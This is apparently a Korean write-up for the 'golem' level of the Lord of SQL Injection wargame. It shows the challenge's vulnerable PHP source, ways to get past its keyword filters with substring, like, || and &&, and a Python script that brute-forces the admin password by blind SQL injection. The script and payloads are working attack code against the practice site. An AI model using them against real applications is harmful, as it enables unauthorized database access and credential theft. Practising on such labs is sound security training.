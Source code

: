 # Lord of SQL Injection No.11 - golem
## 문제 출제 의도 
substr함수를 우회하여 원하는 값을 전달할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```
~~~
if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
~~~
전달된 pw값에 =, or, and, substr(이라는 문자열이 있으면 문제풀이에 실패한다.
## Solution
1. substr 우회, = 우회
+ substr 함수를 대신하는 함수에는 substring, mid 같은 함수들이 있다.
+ =을 우회하는 방법에는 like와 in이 있다.
```python
import urllib.request
from urllib.parse import quote

key = ""

for i in range(1, 10):
    for j in range(47, 127):
        url = "http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
        data = "' || id like 'admin' && substring(pw, {}, 1) like '{}'#".format(str(i), chr(j)) #substr이었으면 안되지만 substr(이기 때문에 substring으로 우회가 된다. =은 like로 대체
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)

        re.add_header(
            "User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36")
        re.add_header(
            "Cookie", "PHPSESSID=gh57forq4jprvccs9r6tj84q21"
        )

        req = urllib.request.urlopen(re)

        if str(req.read()).find("Hello admin") != -1:
            key += chr(j).lower()
            print(key)
            break
print(key)
```
코드를 통하여 얻은 pw값 88e3137f를 전달하면 문제가 풀린다.